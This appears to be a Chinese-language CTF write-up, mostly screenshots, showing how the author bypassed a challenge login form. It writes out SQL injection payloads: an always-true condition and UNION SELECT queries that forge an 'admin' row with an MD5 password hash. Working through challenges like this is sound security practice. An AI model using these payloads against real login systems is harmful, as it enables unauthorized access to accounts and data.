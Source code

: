![](<./img/Pasted image 20221106111400.png>)

![](<./img/Pasted image 20221106111412.png>)

抓包发现通过`POST`方法传递用户名和密码

![](<./img/Pasted image 20221106111504.png>)

响应包中有一串`base32`码

![](<./img/Pasted image 20221106111611.png>)

![](<./img/Pasted image 20221106111649.png>)

套娃.jpg

![](<./img/Pasted image 20221106111726.png>)

看来是对用户名进行注入
```sql
name=1' or 1=1 or '1&pw=password
```
![](<./img/Pasted image 20221106112051.png>)

尝试判断注入点
```sql
name=1' union select 1,2,3#&pw=password
```
![](<./img/Pasted image 20221106113404.png>)
```sql
name=1' union select 'admin',2,3#&pw=password
```
```sql
name=1' union select 1,'admin',3#&pw=password
```
```sql
name=1' union select 1,2,'admin'#&pw=password
```
发现注入点为第二列

猜测`password`为第三列
```sql
name=1' union select 1,'admin','1'#&pw=1
```
![](<./img/Pasted image 20221106114926.png>)

搜索后才知道用的`md5`编码，属实没想到QAQ
```sql
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```
![](<./img/Pasted image 20221106115057.png>)

#Web #SQL注入 #查询结果伪造
